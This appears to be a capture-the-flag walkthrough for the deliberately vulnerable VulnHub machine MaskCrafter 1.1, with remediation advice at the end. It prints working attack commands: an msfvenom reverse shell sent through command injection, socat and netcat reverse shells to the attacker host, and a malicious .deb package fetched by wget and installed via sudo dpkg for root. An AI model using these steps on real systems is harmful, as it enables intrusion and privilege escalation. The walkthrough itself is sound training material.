


# MaskCrafter: 1.1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.110 |
| **Attacker IP** | 192.168.1.112 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag (`/root/root.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/maskcrafter-1-1-vulnhub-walkthrough/) |

## Attack Summary

MaskCrafter: 1.1 exposes FTP with anonymous access, an HTTP service with a debug panel at `/debug`, and SSH. The attack chain begins with anonymous FTP enumeration to download a notes file and a credential ZIP, exploitation of command injection in the debug panel via Burp Suite, credential extraction from MySQL, and ZIP decryption to obtain SSH credentials. Privilege escalation involves three lateral user pivots: `www-data` → `userx` → `evdaez` → `resercherx` → `root`, using sudo misconfigurations (script abuse, socat, and dpkg with fpm-crafted malicious .deb package).

## Methodology

1. Network scanning (Nmap)
2. FTP anonymous access and file download
3. Web enumeration — `/debug` panel
4. Command injection via Burp Suite
5. MySQL credential extraction
6. ZIP decryption → SSH credentials
7. Privilege escalation: sudo script abuse
8. Privilege escalation: socat pivot
9. Privilege escalation: dpkg + malicious .deb package

## Step 1: Reconnaissance

```bash
nmap -A 192.168.1.110
```



Open ports:
- **21/tcp** — FTP (vsftpd, anonymous login enabled)
- **22/tcp** — OpenSSH
- **80/tcp** — HTTP (Apache)
- **111/tcp** — RPC
- **2049/tcp** — NFS

## Step 2: FTP Anonymous Access

```bash
ftp 192.168.1.110
# Username: anonymous
# Password: (blank or anonymous)

ftp> ls
ftp> cd pub
ftp> ls
ftp> get NOTES.txt
ftp> get cred.zip
ftp> get rce.php
ftp> bye
```



Read the notes file:

```bash
cat NOTES.txt
```

Key information from NOTES.txt:
- A `/debug` directory exists on the web server
- Default admin username is `admin`

## Step 3: Web — Command Injection at /debug

Navigate to `http://192.168.1.110/debug` and log in with `admin:admin`.

Intercept the debug request with Burp Suite. The command is sent as a plain-text POST parameter.

Generate a reverse shell payload:

```bash
msfvenom -p cmd/unix/reverse_python lhost=192.168.1.112 lport=1234 -f raw
```

Start a listener:

```bash
nc -lvp 1234
```

Replace the command parameter in Burp Suite with the msfvenom output and forward the request. A shell arrives as `www-data`.

Upgrade the shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Step 4: Credential Extraction from MySQL

```bash
cat /var/www/debug/db.php
# db credentials: web / P@ssw0rdweb

mysql -u web -pP@ssw0rdweb
```

```sql
show databases;
use mydatabase;
show tables;
select * from creds;
-- Output: cred12345!!   (ZIP password)
```

## Step 5: SSH Credentials via ZIP

On the attacker machine:

```bash
unzip cred.zip
# Password: cred12345!!

cat cred.txt
# userx : thisismypasswordforuserx2020
```

Log in via SSH:

```bash
ssh userx@192.168.1.110
```

## Step 6: Privilege Escalation — userx → evdaez


```bash
sudo -l
# (evdaez) NOPASSWD: /scripts/whatsmyid.sh
```

The script is writable. Replace its contents:

```bash
cat > /scripts/whatsmyid.sh << 'EOF'
#!/bin/bash
/bin/bash
EOF
chmod +x /scripts/whatsmyid.sh
sudo -u evdaez /scripts/whatsmyid.sh
```

Now operating as `evdaez`.

## Step 7: Privilege Escalation — evdaez → resercherx

```bash
sudo -l
# (resercherx) NOPASSWD: /usr/bin/socat
```

On the attacker machine, start a socat listener:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

On the target as `evdaez`:

```bash
sudo -u resercherx socat \
  tcp-connect:192.168.1.112:12345 \
  exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

Shell received as `resercherx`.

## Step 8: Privilege Escalation — resercherx → root


```bash
sudo -l
# (root) NOPASSWD: /usr/bin/dpkg
```

Use `fpm` to craft a malicious `.deb` package with a root shell in the install hook.

On the attacker machine:

```bash
TF=$(mktemp -d)
echo 'exec /bin/sh' > "$TF/x.sh"
chmod +x "$TF/x.sh"
fpm -n x -s dir -t deb -a all --before-install "$TF/x.sh" "$TF"
# Serves x_1.0_all.deb

python3 -m http.server 8000
```

On the target as `resercherx`:

```bash
cd /tmp
wget http://192.168.1.112:8000/x_1.0_all.deb
sudo dpkg -i x_1.0_all.deb
```

The install hook triggers — a root shell drops.

## Step 9: Root Flag


```bash
id
# uid=0(root) gid=0(root) groups=0(root)
cd /root
cat root.txt
```

## Credentials Summary

| User | Service | Password |
|---|---|---|
| `anonymous` | FTP | (blank) |
| `admin` | `/debug` web panel | `admin` |
| `web` | MySQL | `P@ssw0rdweb` |
| `userx` | SSH | `thisismypasswordforuserx2020` |

## Lessons Learned

1. **Anonymous FTP** should never be enabled on production systems; files available anonymously may contain credentials or attack hints.
2. **Command injection in admin panels** with no authentication or weak credentials is immediately critical — any user-controlled parameter sent to a shell execution function is vulnerable.
3. **Database credentials in web source files** are a persistent risk; use environment variables or secrets management instead.
4. **Multi-step sudo pivot chains** (three lateral moves) demonstrate how a single misconfigured `sudoers` entry at each hop can enable full compromise.
5. **dpkg + fpm** is a powerful GTFOBins technique — any sudo access to `dpkg` or package managers allows root code execution via install/post-install hooks.

## Remediation

| Vulnerability | Fix |
|---|---|
| Anonymous FTP | Disable anonymous FTP; require authentication |
| Command injection in `/debug` | Validate and sanitize all user inputs; disable debug panels in production |
| Database credentials in web files | Use environment variables; apply principle of least privilege for DB users |
| Sudo to writable script | Ensure scripts executed via sudo are owned by root and not writable by others |
| Sudo to socat | Remove socat from sudoers; use dedicated remote access solutions |
| Sudo to dpkg | Remove dpkg from sudoers; restrict package management to root-only sessions |
